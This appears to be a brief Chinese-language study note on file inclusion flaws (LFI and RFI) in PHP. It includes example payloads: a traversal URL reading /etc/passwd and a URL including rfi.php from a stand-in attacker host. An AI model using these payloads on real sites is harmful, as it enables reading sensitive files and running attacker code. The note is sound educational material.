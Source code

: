 # 文件包含

* `文件包含`=`File Inclusion`
  * ->
    * 文件包含漏洞
    * 文件包含攻击
  * 包括
    * `LFI`=`Local File Inclusion`=`本地文件包含`
    * `RFI`=`Remote File Inclusion`=`远程文件包含`
  * 问题根源：（往往是）url参数
  * 举例
    * 现有URL：`http://mywebsite.com/index.php?page=home.php`
      * 内部源码：`include($_GET['page']);`
    * 文件包含攻击
      * 本地文件包含
        * 返回上一级，访问其他（敏感信息）文件
        * `http://mywebsite.com/index.php?page=../../../etc/passwd`
      * 远程文件包含
        * 使用绝对路径地址，包含远程文件
          * `http//mywebsite.com/index.php?page=http://myhackerspage.com/rfi.php`
  * 相关工具
    * `Gobuster`
    * `Wfuzz`
    * `fimap`

